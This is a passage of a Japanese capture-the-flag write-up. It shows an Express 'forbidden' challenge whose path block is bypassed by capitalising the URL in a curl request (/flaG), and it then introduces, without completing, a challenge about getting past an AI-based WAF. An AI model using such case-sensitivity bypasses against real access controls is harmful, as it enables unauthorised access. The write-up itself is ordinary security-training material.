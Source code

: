 <img src="./img/ctf4b_forbiden-2.png">

ソースコードを見ると"/flag"を含んでいる場合に403が返されることがわかる。  

```
# index.js
const block = (req, res, next) => {
    if (req.path.includes('/flag')) {
        return res.send(403, 'Forbidden :(');
    }

    next();
}

app.get("/flag", block, (req, res, next) => {
    return res.send(FLAG);
})
```

大文字にすれば良いだけ。

```
(⁎'~') < curl https://forbidden.beginners.seccon.games/flaG
ctf4b{403_forbidden_403_forbidden_403}%                                                                                     
```

----

## aiwaf

>AI-WAFを超えてゆけ！！ ※AI-WAFは気分屋なのでハックできたりできなかったりします。

URLとソースコードが与えられている。  
アクセスすると以下のページ。  
